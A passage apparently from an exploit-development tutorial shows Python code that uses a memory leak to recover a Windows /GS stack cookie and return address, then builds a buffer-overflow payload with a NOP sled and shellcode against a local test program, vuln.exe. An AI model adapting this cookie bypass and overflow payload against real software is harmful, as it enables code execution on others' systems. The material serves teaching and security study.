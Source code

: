 ```python
  memleak = output.split(' ')

  # Obtain values by accessing the nth index in the output
  eax = int(memleak[17],16)       # index 17 = eax
  ret = int(memleak[8],16)        # index 8 = return address (esp)
  ebp = ret - 0x8

  # Output memory leak and calculated registers/values
  print "{0} {1}\n{2}".format(memleak[0], 40, ''.join(x + " " for x in memleak[1:]))
  print "[*] Leaked addresses from memleak:"
  print "eax = 0x{:>08x}".format(eax)
  print "ret = 0x{:>08x}".format(ret)
  print "cookie = 0x{:>08x}\n".format(eax^ebp)  # eax ^ ebp = cookie
  # Return tuple of values
  return (eax, ret)


def create_payload(eax, ret):
  ''' Helper function combines all components to create the payload.
      Final result should look like:
      [ 0x414141...1024 ][ cookie ][ 0x42424242 ][  eip  ][ 0x909090... ][ shellcode ]
  '''

  buf  = "\x41" * 1024    # buf
  buf += pack('<I', eax)  # eax = cookie
  buf += "\x42" * 4       # overwrite ebp w/ random 4-byte value
  buf += pack('<I', ret)  # overwrite eip w/ value from memleak
  buf += "\x90" * 100     # nopsled
  buf += gen_shellcode()  # shellcode
  # returns exploit payload
  return buf


def main():
  print_banner()  # print banner message at top

  exe  = "vuln.exe"  # name of program

  p = Popen(["C:\\blog\\" + exe], stdin=PIPE, stdout=PIPE, stderr=PIPE)
  time.sleep(2)  # allow a few seconds to start running

  cmd = ["tlist", "/p", exe]
  p_pid = check_output(cmd) # get PID from tasklist

  # Basic error checking
  if int(p_pid) > 0:
    # Returns greater than 0 for valid PID
    print "[*] Running %s in the background, pid=%s ...\n" % (exe, p_pid)
  else:
    # Returns less than 0 for invalid or non-existent PID
    print "[!] Unable to execute %s ...\n" % exe
    sys.exit(1)

  # Send input to memleak() through stdin pipe with newline appended
  loop = 40
  p.stdin.write(str(loop) + "\n")  

  # Read memleak() output from stdout pipe
  output  = p.stdout.readline().rstrip()

  # Save tuple of addresses from memleak helper function
  addr = get_memleak_values(output)

```

[Section 1]: #overview-of-windows-mitigations "overview of mitigations"
[Section 2]: #vulnerability "GS vulnerability"
[Section 3]: #exploit-development
[Section 4]: #running-the-exploit
[earlier]: #overview-of-windows-mitigations "overview"
[2]: https://en.wikipedia.org/wiki/Buffer_overflow_protection#Random_XOR_canaries
[As previously discussed]: #prologue-and-epilogue "prologue and epilogue"
[previous section]: #leveraging-memleak-vulnerability "leveraging memleak vulnerability"
[next section]: #finding-return-address "finding return address"
[more on this later]: #running-the-exploit
[skip]: #results "skip to next section"
[1]: https://docs.microsoft.com/en-us/cpp/build/reference/gs-buffer-security-check